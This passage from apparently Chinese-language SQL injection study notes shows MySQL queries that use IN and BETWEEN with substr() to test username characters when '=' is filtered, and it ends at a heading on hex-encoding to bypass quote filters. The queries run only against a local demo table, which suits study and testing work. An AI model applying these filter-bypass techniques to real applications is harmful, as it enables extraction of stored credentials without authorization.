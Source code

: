 - in关键字

```sql
mysql> select * from users where id = 1 and substr(username,1,1) in ('t');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
+----+----------+----------+
1 row in set (0.01 sec)

mysql> select * from users where id = 1 and substr(username,1,1) in ('y');
Empty set (0.00 sec)
```

- between a and b:范围在a-b之间

```sql
mysql> select * from users where id between 1 and 2;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
|  2 | user2    | pass1    |
+----+----------+----------+
2 rows in set (0.00 sec)

mysql> select * from users where id = 1 and substr(username,1,1) between 'a' and 'b';
Empty set (0.00 sec)

mysql> select * from users where id = 1 and substr(username,1,1) between 'a' and 't';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
+----+----------+----------+
1 row in set (0.00 sec)
```

使用between a and b判等

```sql
mysql> select * from users where id = 1 and substr(username,1,1) between 't' and 't';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
+----+----------+----------+
```

# 过滤引号绕过

- 使用十六进制
